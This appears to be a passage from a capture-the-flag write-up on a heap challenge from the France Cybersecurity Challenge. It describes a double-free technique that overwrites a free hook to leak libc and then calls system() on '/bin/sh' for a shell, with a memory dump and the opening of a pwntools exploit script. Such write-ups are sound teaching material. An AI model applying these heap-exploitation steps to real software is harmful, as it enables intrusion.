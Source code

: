 However it does not work remotly which is sad because I could have first blooded it...

---
# The new plan

The max free limit scared me and I decided to hijack the `tcache_perthread_struct` but we actually don't need to.

![meme failed to load :(](https://imgur.com/qb4Lsqq)

We can double free a 0x20 sized chunk to later overwrite `old_free_hook`, then double free a 0x30 sized chunk to overwrite `old_free_hook` and `"a"` (`"a"` holds the current chunk and it is just after `old_free_hook`).
Now we can overwrite both `old_free_hook` with `puts@plt` and `"a"` with the address of `stderr` at the same time. 
We are now able to leak `stderr` with free, use the 0x20 sized chunk we double free-ed before to overwrite `old_free_hook` with `system()`, malloc a "/bin/sh\0" and use our last free on it to get a shell!

```C
0x602030:                       0x0000000000000000      0x0000000000000000 <--- null qword behind stderr (below 0x40)
0x602040 <stderr@@GLIBC_2.2.5>: 0x000073c2a7dec680      0x0000000000000000
0x602050 <old_free_hook>:       0x00000000004006a0      0x0000000000602040 <--- "a"
```

**TLDR**
- double free to overwrite `old_free_hook` and `"a"` with `puts@plt` and `&stderr` to leak libc.
- overwrite `old_free_hook` with `system()` and get a shell.

Here's the new script:
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./cheapolata_patched"
args = []
io: process = None

speed = 0.1

def debug():
    gdb.attach(io, gdbscript=
    """
    define current
    x/10xg (void*)a-0x10
    end
    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2106)

def launch_local():
    global file, io
    pty = process.PTY
    io = process([file, *args], stdin=pty, stdout=pty) # stdin=pty to avoid pwntools messing with the file structures and the heap because the challenge does not call setvbuf()
```